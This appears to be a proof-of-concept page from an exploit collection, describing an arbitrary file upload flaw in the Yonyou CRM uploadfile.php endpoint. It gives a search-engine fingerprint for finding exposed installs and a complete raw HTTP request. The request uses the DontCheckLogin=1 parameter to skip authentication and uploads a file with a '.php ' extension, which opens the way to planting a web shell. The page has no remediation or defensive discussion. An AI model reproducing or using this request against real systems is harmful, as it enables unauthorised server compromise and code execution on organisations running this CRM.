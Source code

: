 ## 用友CRM系统uploadfile.php接口存在任意文件上传

## hunter

```yaml
app.name="用友 CRM"
```

## poc

```yaml
POST /ajax/uploadfile.php?DontCheckLogin=1&vname=file HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Connection: close
Content-Length: 358
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: multipart/form-data; boundary=---------------------------269520967239406871642430066855

-----------------------------269520967239406871642430066855
Content-Disposition: form-data; name="file"; filename="%s.php "
Content-Type: application/octet-stream

test123
-----------------------------269520967239406871642430066855
Content-Disposition: form-data; name="upload"

upload
-----------------------------269520967239406871642430066855--
```

![image](https://github.com/wy876/POC/assets/139549762/195b7dfb-918c-448c-b774-8d141f14a29e)
